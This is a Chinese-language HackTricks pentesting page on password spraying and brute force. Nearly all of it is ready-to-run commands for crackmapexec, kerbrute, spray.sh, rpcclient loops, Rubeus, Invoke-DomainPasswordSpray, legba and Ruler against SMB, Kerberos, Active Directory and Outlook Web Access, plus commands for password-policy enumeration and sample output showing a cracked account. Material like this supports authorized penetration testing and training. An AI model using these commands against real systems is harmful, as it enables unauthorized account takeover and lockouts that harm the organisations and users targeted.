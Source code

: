 # 密码喷涂 / 暴力破解

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* 如果你在**网络安全公司**工作，想在**HackTricks**上看到你的**公司广告**，或者想要获取**PEASS最新版本或下载HackTricks的PDF**？请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 发现我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)系列：[**The PEASS Family**](https://opensea.io/collection/the-peass-family)
* 获取[**官方PEASS & HackTricks周边商品**](https://peass.creator-spring.com)
* **加入**[**💬**](https://emojipedia.org/speech-balloon/) [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**telegram群组**](https://t.me/peass)或在**Twitter**上**关注**我[**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**。**
* **通过向**[**hacktricks仓库**](https://github.com/carlospolop/hacktricks) **和** [**hacktricks-cloud仓库**](https://github.com/carlospolop/hacktricks-cloud) **提交PR来分享你的黑客技巧。**

</details>

## **密码喷涂**

一旦你找到了几个**有效的用户名**，你可以尝试使用最**常见的密码**（记住环境中的密码策略）对每个发现的用户进行尝试。\
**默认情况下**，**最小** **密码** **长度**是**7**。

常见用户名列表也可能有用：[https://github.com/insidetrust/statistically-likely-usernames](https://github.com/insidetrust/statistically-likely-usernames)

请注意，如果你尝试了多个错误的密码，**可能会锁定一些账户**（默认情况下超过10次）。

### 获取密码策略

如果你有一些用户凭证或作为域用户的shell，你可以**使用以下方法获取密码策略**：
```bash
# From Linux
crackmapexec <IP> -u 'user' -p 'password' --pass-pol

enum4linux -u 'username' -p 'password' -P <IP>

rpcclient -U "" -N 10.10.10.10;
rpcclient $>querydominfo

ldapsearch -h 10.10.10.10 -x -b "DC=DOMAIN_NAME,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength

# From Windows
net accounts

(Get-DomainPolicy)."SystemAccess" #From powerview
```
### 从Linux（或全部）进行利用

* 使用 **crackmapexec:**
```bash
crackmapexec smb <IP> -u users.txt -p passwords.txt
# Local Auth Spray (once you found some local admin pass or hash)
## --local-auth flag indicate to only try 1 time per machine
crackmapexec smb --local-auth 10.10.10.10/23 -u administrator -H 10298e182387f9cab376ecd08491764a0 | grep +
```
* 使用 [**kerbrute**](https://github.com/ropnop/kerbrute) (Go)
```bash
# Password Spraying
./kerbrute_linux_amd64 passwordspray -d lab.ropnop.com [--dc 10.10.10.10] domain_users.txt Password123
# Brute-Force
./kerbrute_linux_amd64 bruteuser -d lab.ropnop.com [--dc 10.10.10.10] passwords.lst thoffman
```
* [**spray**](https://github.com/Greenwolf/Spray) _**(你可以指定尝试次数以避免账户锁定):**_
```bash
spray.sh -smb <targetIP> <usernameList> <passwordList> <AttemptsPerLockoutPeriod> <LockoutPeriodInMinutes> <DOMAIN>
```
* 使用 [**kerbrute**](https://github.com/TarlogicSecurity/kerbrute) (python) - 有时不推荐，可能无法工作
```bash
python kerbrute.py -domain jurassic.park -users users.txt -passwords passwords.txt -outputfile jurassic_passwords.txt
python kerbrute.py -domain jurassic.park -users users.txt -password Password123 -outputfile jurassic_passwords.txt
```
* 使用 **Metasploit** 的 `scanner/smb/smb_login` 模块：

![](<../../.gitbook/assets/image (132) (1).png>)

* 使用 **rpcclient**：
```bash
# https://www.blackhillsinfosec.com/password-spraying-other-fun-with-rpcclient/
for u in $(cat users.txt); do
rpcclient -U "$u%Welcome1" -c "getusername;quit" 10.10.10.10 | grep Authority;
done
```
#### 从Windows

* 使用带有暴力模块的[Rubeus](https://github.com/Zer1t0/Rubeus)版本：
```bash
# with a list of users
.\Rubeus.exe brute /users:<users_file> /passwords:<passwords_file> /domain:<domain_name> /outfile:<output_file>

# check passwords for all users in current domain
.\Rubeus.exe brute /passwords:<passwords_file> /outfile:<output_file>
```
* 使用 [**Invoke-DomainPasswordSpray**](https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1)（它可以默认从域生成用户，并且会从域获取密码策略，并根据策略限制尝试次数）：
```powershell
Invoke-DomainPasswordSpray -UserList .\users.txt -Password 123456 -Verbose
```
* 使用 [**Invoke-SprayEmptyPassword.ps1**](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-SprayEmptyPassword.ps1)
```
Invoke-SprayEmptyPassword
```
## 暴力破解

{% code overflow="wrap" %}
```bash
legba kerberos --target 127.0.0.1 --username admin --password wordlists/passwords.txt --kerberos-realm example.org
```
## Outlook Web Access

有多种工具可以进行**密码喷射Outlook**。

* 使用 [MSF Owa\_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/owa\_login/)
* 使用 [MSF Owa\_ews\_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/owa\_ews\_login/)
* 使用 [Ruler](https://github.com/sensepost/ruler)（可靠！）
* 使用 [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)（Powershell）
* 使用 [MailSniper](https://github.com/dafthack/MailSniper)（Powershell）

要使用这些工具中的任何一个，你需要一个用户列表和一个密码/一小列密码来喷射。
```bash
./ruler-linux64 --domain reel2.htb -k brute --users users.txt --passwords passwords.txt --delay 0 --verbose
[x] Failed: larsson:Summer2020
[x] Failed: cube0x0:Summer2020
[x] Failed: a.admin:Summer2020
[x] Failed: c.cube:Summer2020
[+] Success: s.svensson:Summer2020
```
## Google

* [https://github.com/ustayready/CredKing/blob/master/credking.py](https://github.com/ustayready/CredKing/blob/master/credking.py)

## Okta

* [https://github.com/ustayready/CredKing/blob/master/credking.py](https://github.com/ustayready/CredKing/blob/master/credking.py)
* [https://github.com/Rhynorater/Okta-Password-Sprayer](https://github.com/Rhynorater/Okta-Password-Sprayer)
* [https://github.com/knavesec/CredMaster](https://github.com/knavesec/CredMaster)

## 参考资料

* [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/active-directory-password-spraying](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/active-directory-password-spraying)
* [https://www.ired.team/offensive-security/initial-access/password-spraying-outlook-web-access-remote-shell](https://www.ired.team/offensive-security/initial-access/password-spraying-outlook-web-access-remote-shell)
* www.blackhillsinfosec.com/?p=5296
* [https://hunter2.gitbook.io/darthsidious/initial-access/password-spraying](https://hunter2.gitbook.io/darthsidious/initial-access/password-spraying)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* 如果您在**网络安全公司**工作，想在**HackTricks**中看到您的**公司广告**，或者想要访问**最新版本的PEASS或下载HackTricks的PDF**？请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs**](https://opensea.io/collection/the-peass-family)系列。
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)。
* **加入**[**💬**](https://emojipedia.org/speech-balloon/)[**Discord群组**](https://discord.gg/hRep4RUj7f)或[**telegram群组**](https://t.me/peass)或在**Twitter**上**关注**我[**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**。**
* **通过向**[**hacktricks仓库**](https://github.com/carlospolop/hacktricks) **和** [**hacktricks-cloud仓库**](https://github.com/carlospolop/hacktricks-cloud) **提交PR来分享您的黑客技巧。**

</details>
